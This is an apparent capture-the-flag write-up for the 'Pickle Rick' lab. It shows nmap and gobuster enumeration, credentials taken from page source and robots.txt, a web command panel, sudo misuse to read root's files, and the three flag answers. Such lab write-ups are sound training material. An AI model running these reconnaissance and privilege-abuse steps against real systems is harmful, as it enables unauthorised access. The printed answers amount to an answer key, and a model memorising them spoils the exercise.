



# Enumeration
```
nmap -sC -sV -v 10.10.45.121
Discovered open port 22/tcp on 10.10.45.121
Discovered open port 80/tcp on 10.10.45.121
Completed SYN Stealth Scan at 19:53, 1.27s elapsed (1000 total ports)
Initiating Service scan at 19:53
Scanning 2 services on ip-10-10-45-121.eu-west-1.compute.internal (10.10.45.121)
Completed Service scan at 19:53, 6.02s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.45.121.
Initiating NSE at 19:53
Completed NSE at 19:53, 0.27s elapsed
Initiating NSE at 19:53
Completed NSE at 19:53, 0.00s elapsed
Nmap scan report for ip-10-10-45-121.eu-west-1.compute.internal (10.10.45.121)
Host is up (0.00021s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:E0:E3:9F:80:FF (Unknown)
```
```
gobuster dir -u 10.10.45.121 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.45.121
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/08/26 19:56:09 Starting gobuster
===============================================================
/assets (Status: 301)
===============================================================
2024/08/26 19:56:21 Finished
===============================================================
```
In site source code there is a comment
```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
Username: R1ckRul3s
We need to find the password, enumerate more. In robotx.txt subdir of site we have `Wubbalubbadubdub` this could be a password
Password: Wubbalubbadubdub

This credentials seems not for ssh, we need to find a login page for this. Based from assets there is portal jpeg. This can be a hint that the login page is named portal, I tried using gobuster but the portal subdirectory is not showing maybe with the seclists i used.

The reason why i cant find the login page is im missing arguments in my command which is **-x** string File extension(s) to search for (dir mode only)
```
gobuster dir -u 10.10.45.121 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.45.121
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2024/08/26 20:09:25 Starting gobuster
===============================================================
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
Progress: 50094 / 1273834 (3.93%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2024/08/26 20:09:33 Finished
===============================================================
```
we can now login using the credentials we found.


Great! we can execute some commands

ls command is not working, less commands work. We got the first flag.

Lets see if we can execute some sudo command 
```
sudo -l

Matching Defaults entries for www-data on ip-10-10-45-121:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-45-121:
    (ALL) NOPASSWD: ALL
```
Lets enumerate the directory
```
sudo ls /home
rick
ubuntu

sudo ls /home/rick
second ingredients
sudo less /home/rick/second\ ingredients
1 jerry tear
```
we found the second flag, lets enumerate more.
we found a lot of directories using the command. Root directory is interesting, it has 3rd.txt file
```
sudo ls /*
sudo ls /root
sudo less /root/3rd.txt
```
# What is the first ingredient that Rick needs?  
mr. meeseek hair


# What is the second ingredient in Rick’s potion?  
1 jerry tear


# What is the last and final ingredient?
fleeb juice
